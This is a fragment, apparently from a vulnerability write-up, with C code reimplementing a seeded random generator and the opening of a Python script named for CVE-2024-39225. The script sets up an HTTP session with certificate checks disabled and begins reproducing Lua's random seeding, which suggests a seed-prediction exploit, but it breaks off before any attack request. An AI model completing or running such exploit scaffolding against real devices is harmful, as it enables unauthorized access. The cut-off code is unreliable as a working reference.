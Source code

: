 ```
    n = x[-1]>>16;
    i = (x[-1]>>8)&0xff;
    j = x[-1]&0xff;
}
 
long mysrandom(unsigned seed) {
    int k;
    uint64_t s = seed;
 
    if (n == 0) {
        x[0] = s;
        return;
    }
    i = n == 31 || n == 7 ? 3 : 1;
    j = 0;
    for (k = 0; k < n; k++) {
        s = lcg64(s);
        x[k] = s>>32;
    }
    /* make sure x contains at least one odd number */
    x[0] |= 1;
}
long myrandom(void) {
    long k;
 
    if (n == 0) {
        k = x[0] = lcg31(x[0]);
        goto end;
    }
    x[i] += x[j];
    k = x[i]>>1;
    if (++i == n)
        i = 0;
    if (++j == n)
        j = 0;
end:
    return k;
} 
```

```
#CVE-2024-39225.py
import time
import requests
import concurrent.futures
from requests.adapters import HTTPAdapter, Retry
from ctypes import *
 
requests.packages.urllib3.disable_warnings()
h = {'Content-type':'application/json;charset=utf-8', 'User-Agent':'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'}
retry = Retry(total=5, backoff_factor=1, status_forcelist=[429, 500, 502, 503, 504])
s = requests.Session()
s.mount('http://' , HTTPAdapter(max_retries=retry))
s.mount('https://', HTTPAdapter(max_retries=retry))
s.headers = h
s.verify = False
s.keep_alive = True
timeout = 20
max_backward_seconds = 3000
 
RAND_MAX = 2147483647
 
def lua53_math_randomseed(s):
```